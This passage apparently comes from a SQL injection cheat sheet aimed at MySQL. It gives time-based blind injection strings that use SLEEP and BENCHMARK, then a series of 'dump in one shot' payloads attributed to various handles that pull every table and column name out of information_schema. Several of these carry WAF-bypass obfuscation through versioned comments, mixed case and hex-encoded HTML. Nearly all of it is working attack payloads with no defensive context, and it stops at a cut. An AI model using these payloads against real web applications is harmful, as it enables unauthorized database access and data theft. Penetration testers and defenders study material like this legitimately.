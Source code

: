 ### Using conditional statements

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```

## MYSQL DIOS - Dump in One Shot

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#

(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#

-- SecurityIdiots
make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Profexer
(select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)

-- Dr.Z3r0
(select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@))

-- M@dBl00d
(Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))

-- Zen
+make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)

-- Zen WAF
(/*!12345sELecT*/(@)from(/*!12345sELecT*/(@:=0x00),(/*!12345sELecT*/(@)from(`InFoRMAtiON_sCHeMa`.`ColUMNs`)where(`TAblE_sCHemA`=DatAbAsE/*data*/())and(@)in(@:=CoNCat%0a(@,0x3c62723e5461626c6520466f756e64203a20,TaBLe_nAMe,0x3a3a,column_name))))a)

-- ~tr0jAn WAF
+concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a207e7472306a416e2a2044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/+

-- ~tr0jAn Benchmark
```